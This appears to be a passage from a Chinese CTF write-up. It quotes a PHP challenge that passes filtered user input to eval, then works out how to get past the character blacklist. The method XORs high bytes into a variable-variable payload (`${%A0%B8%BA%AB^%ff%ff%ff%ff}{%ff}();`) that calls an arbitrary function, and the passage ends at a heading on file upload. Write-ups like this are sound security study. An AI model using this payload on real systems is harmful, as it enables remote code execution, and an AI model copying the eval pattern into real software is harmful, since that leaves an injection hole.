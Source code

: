 ```php
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```



看样子是要调用`get_the_flag`这个函数,再进行下一步

可用字符:

```
!#$%()*+-/:;<>?@\]^{}\x80-\xff
```

看这些字符,觉得最有可能的突破点是`$`

关于变量名有以下正则

`[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*`

还有可变变量:`${'_GET'}=$_GET`

先以执行任意一个命令为目标



看到`^`再结合`\x80-\xff`就可以构造任何语句了

构造类似`'(%ff%ff%ff%ff%ff^%xxxxxxxxxx)();'`来执行命令,但是这样的话函数名必须小于7个



冥思苦想最后把上面三个结合在一起得到:

`_=${%A0%B8%BA%AB^%ff%ff%ff%ff}{%ff}();`=>`$_GET['\xff']();`



#### 第二步 文件上传


